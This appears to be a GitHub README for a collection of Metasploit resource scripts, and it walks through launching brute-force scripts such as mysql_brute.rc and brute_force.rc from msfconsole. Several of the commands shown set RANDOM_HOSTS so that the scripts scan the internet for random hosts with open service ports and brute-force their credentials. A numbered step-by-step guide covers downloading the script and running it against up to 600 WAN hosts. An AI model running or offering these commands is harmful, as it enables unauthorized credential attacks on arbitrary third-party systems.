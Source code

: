 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)
Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Many of the this brute force resource scripts are written to accept **user inputs** (setg global variables).<br />This means that users can run this kind of resource scripts in 3 diferent ways:

Execute resource script

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

**Adicionally to the described settings we can also combine diferent configurations at runtime execution.**<br />
---

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º clean (**or export**) msfconsole database before runing rc script<br />

      sudo msfconsole -q -x 'hosts -d;services -d;exit -y'

- **OR** export current database to database.xml (local)<br />

      sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

4º run brute_force.rc resource script to search hosts on WAN (**limmit to 300 searchs**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote><br />

5º To populate the database with scans, just instruct the rc script to not clean db (**optional | not-adviced**)<br />

      sudo msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'

### Suspicious Shell Activity RedTeam @2019

<br />

